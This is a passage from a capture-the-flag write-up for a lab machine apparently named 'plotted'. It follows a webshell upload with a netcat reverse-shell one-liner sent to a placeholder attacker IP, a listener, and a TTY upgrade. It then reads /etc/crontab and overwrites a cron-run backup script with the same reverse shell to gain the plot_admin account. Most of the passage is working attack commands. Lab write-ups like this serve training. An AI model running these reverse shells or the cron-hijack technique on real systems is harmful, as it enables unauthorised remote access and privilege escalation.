 * After upload, open the uploaded file in a new tab to access the webshell:

![Webshell uploaded](webshell-uploaded.png)
![Webshell interface](webshell.png)

---

## Getting a Reverse Shell

* From the webshell, execute a reverse shell using (using reverse-shell from [revshells website](https://revshells.com))

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f
```

* On attacker machine:

```bash
sudo nc -nlvp <ATTACKER_PORT>
```

* Once connected, spawn a proper TTY shell:

```bash
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Horizontal Privilege Escalation

* Check crontab:

```bash
www-data@plotted:/www/scripts$ cat /etc/crontab
* * * * * plot_admin /var/www/scripts/backup.sh
```

* Replace `/var/www/scripts/backup.sh` with your reverse shell, wait for cron:

```bash
rm -fr /var/www/scripts/backup.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f" > /var/www/scripts/backup.sh
chmod +x /var/www/scripts/backup.sh
```

* Wait for cron to trigger, and connect as `plot_admin`:

```bash
plot_admin@plotted:~$ cat user.txt
REDACTED
```

---
